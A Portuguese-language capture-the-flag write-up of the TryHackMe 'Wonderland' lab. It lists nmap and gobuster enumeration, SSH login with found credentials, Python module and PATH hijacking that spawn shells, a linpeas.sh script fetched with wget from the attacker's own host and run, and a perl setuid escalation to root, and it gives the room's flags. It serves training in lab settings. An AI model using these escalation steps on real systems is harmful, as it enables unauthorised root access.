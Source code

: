 # Wonderland

## Login in server

```bash
nmap -sV -A -n 10.10.70.25
```

> 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
> 
- Vamos abrir a pagina web
    
    ```bash
    gobuster -u 10.10.70.25 -w wordlist/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,txt
    ```
    
- Achamos um estranho diretorio `/r`
    
    ![Untitled](Untitled.png)
    
- Achamos essa pagina
    
    ![Untitled](Untitled%201.png)
    
- Vamos ver se tem mais alguma coisa rodando o gobuster novamente
    
    ```bash
    gobuster -u 10.10.70.25/r -w wordlist/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,txt
    ```
    
- Dessa ves achamos o `/a`
- Estranhamente esta formando a palavra *rabbit* que seria coelho
- Entao vamos ver se existe esse `/b`
- E sim existe, porem caso queria tentar com o gobuster fique a vontade
- Ao fim da palavra *rabbit*
- Vamos abrir o codigo fonte da pagina
    
    ![Untitled](Untitled%202.png)
    
- Com esse usuario e possivel senha, vamos tentar logar no ssh
- `alice:HowDothTheLittleCrocodileImproveHisShiningTail`

![Untitled](Untitled%203.png)

## Obtain the flag in user.txt

- Vamos procurar algo que possa ser executado
- [https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4](https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4)
    
    ```bash
    find / -user root -perm -4000 2>/dev/null
    ```
    
- Nao achamos nada demais, entao vamos testar outras coisas
    
    ```bash
    sudo -l
    ```
    
    ![Untitled](Untitled%204.png)
    
- Bom parece que podemos executar em nome desse *rabbit*
- Entao vamos ver o que tem nesse arquivo `.py`
    
    ```bash
    cat /home/alice/walrus_and_the_carpenter.py
    ```
    
- No comeco dele, ele importa o `random`
- Entao vamos criar um arquivo para esse executavel com nome de random, na mesma pagina desse executavel `.py`
- Nesse conteudo vamos colocar uma shell
    
    ```bash
    nano random.py
    ```
    
- [https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)
    
    ```bash
    import os;
    os.system("/bin/sh")
    ```
    
    ![Untitled](Untitled%205.png)
    
- Agora vamos deixar nosso arquivo executavel
    
    ```bash
    chmod 777 random.py
    ```
    
- Entao agora que temos tudo, vamos executar como rabbit usando o python que ele pode usar, para executar o arquivo `.py` para chamar nosso programa, para ele abrir um shell do rabbit
    
    ```bash
    sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
    ```
    
- Agora dentro de `/home/rabbit` vamos ver o q tem
    
    ```bash
    ls -la
    ```
    
- Achamos um executavel `teaParty`
- Entao vamos ver seu conteudo
    
    ```bash
    cat teaParty
    ```
    
- Mesmo dificil de ler, vamos procurar por algo
    
    ![Untitled](Untitled%206.png)
    
- Achamos esse date, entamo vamos tentar novamente
    
    ```bash
    nano date
    ```
    
    ```bash
    #!/bin/bash
    /bin/bash
    ```
    
    ```bash
    chmod 777 date
    ```
    
- Se tentarmos executar o programa nao ira acontecer nada, entao vamos colocar essa pasta no `$PATH`
    
    ```bash
    export PATH=/home/rabbit:$PATH
    ```
    
- Agora sim podemos executar

---

- Agora que estamos como `hatter`
- Vamos olhar a pasta dele
    
    ```bash
    ls -la /home/hatter
    ```
    
- Tesmo um arquivo de senhas, vamos ver
    
    ```bash
    cd /home/hatter
    ls -la
    cat passwor*
    ```
    
    - `WhyIsARavenLikeAWritingDesk?`
- Para verificar nosso user
    
    ```bash
    id
    ```
    
    ![Untitled](Untitled%207.png)
    
- Repare que estamos no grupo do *rabbit,* entao vamos sair e entrar como *hatter*
    
    ```bash
    exit
    exit
    exit
    ssh hatter@10.10.70.25
    WhyIsARavenLikeAWritingDesk?
    ```
    
- Mesmo testando para ver se existe algo para elevar privilegio nao tem nada
- Entao vamos usar um programa pra isso
- No nosso pc
    
    ```bash
    sudo mv linpeas.sh /var/www/html/
    ifconfig
    ```
    
- No pc, logado como hatter
    
    ```bash
    wget 10.8.154.250/linpeas.sh
    chmod 777 linpeas.sh
    ./linpeas.sh
    ```
    
- Descendo um pouco no conteudo mostrado acharemos isso
    
    ![Untitled](Untitled%208.png)
    
- ou seja, eh possivel usar o `perl` para executar como sudo, entao vamos procurar
- [https://gtfobins.github.io/gtfobins/perl](https://gtfobins.github.io/gtfobins/perl/)
    
    ```bash
    perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
    whoami
    ```
    
- Agora vamos ver o conteudo desse arquivo
    
    ```bash
    ls /root
    cat /root/user.txt
    ```
    
- `thm{"Curiouser and curiouser!"}`

## Escalate your privileges, what is the flag in root.txt?

```bash
cat /home/alice/root.txt
```

- `thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`
